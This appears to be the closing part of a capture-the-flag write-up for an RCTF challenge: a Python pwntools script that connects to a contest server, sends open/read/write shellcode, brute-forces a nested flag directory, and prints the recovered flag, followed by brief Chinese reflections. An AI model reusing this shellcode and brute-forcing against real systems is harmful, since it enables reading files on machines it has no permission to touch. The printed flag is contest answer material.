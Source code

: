 ```python
def fuck(path):
	print path
	try:
		res,f=exp(path)
		#print f
		if res==[] and "flag" in f:
			log.warning(path)
		elif res!=[]:
			for x in res:
				fuck(path+x+"/flag")
		return

	except:
		return 
def exploit(seek,flag=0):
	p=remote("139.180.215.222",20002)
	context.arch='amd64'
	sh='''
	xchg rdi,rsi
	mov edx,esi
	syscall
	'''
	sh=asm(sh)
	p.sendafter(":",sh)
	sh='''
	mov ax,2
	{}
	mov rdi,rsp
	xor rsi,rsi
	xor rdx,rdx
	syscall

	mov rdi,rax
	mov rsi,rsp
	mov rdx,0x30
	xor rax,rax
	syscall

	mov rdi,1
	mov rsi,rsp
	mov rdx,0x30
	xor rax,rax
	mov al,1
	syscall
	'''.format(push_path(seek))
	p.send("\x90"*0x7+asm(sh))
	data=p.read()
	p.close()
	print data

#fuck("/flag")
exploit("./flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag")
#rctf{1h48iegin3egh8dc5ihu}
```


# Summery

发现虽然做了挺多shellcode但是脑子还是不太好使...第一部分都过不去虽然第二部分只是纯粹的写爆破代码+shellcode to fetch path ...

挺不错的一题挺有意思的。

[1]:
[2]: https://cloud.tencent.com/developer/article/1143454
